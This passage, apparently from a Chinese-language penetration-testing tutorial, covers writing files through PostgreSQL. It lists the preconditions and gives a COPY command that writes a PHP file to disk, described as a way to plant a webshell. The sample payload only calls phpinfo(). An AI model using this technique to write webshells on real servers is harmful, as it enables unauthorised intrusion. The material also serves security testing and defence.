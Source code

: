 [![10.png](assets/1698894509-67fa327fc6fcc8f7ccaf1e8e13e88a7e.png)](https://storage.tttang.com/media/attachment/2022/04/13/d46455b5-d0ea-493d-bf31-3e438ec5f8da.png)

- - -

# [0x03 PostgreSQL 写文件](#toc_0x03-postgresql)

**利用条件**  
\- 拥有网站路径写入权限  
\- 知道网站绝对路径

**方法 1 COPY**

COPY 命令可以用于表和文件之间交换数据，这里可以用它写 webshell

```plain
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```

[![1.png](assets/1698894509-dbfdce869c25f81dce8d4ef0edcf6183.png)](https://storage.tttang.com/media/attachment/2022/04/13/b334d46d-5637-4f75-a8eb-46e17927eed3.png)
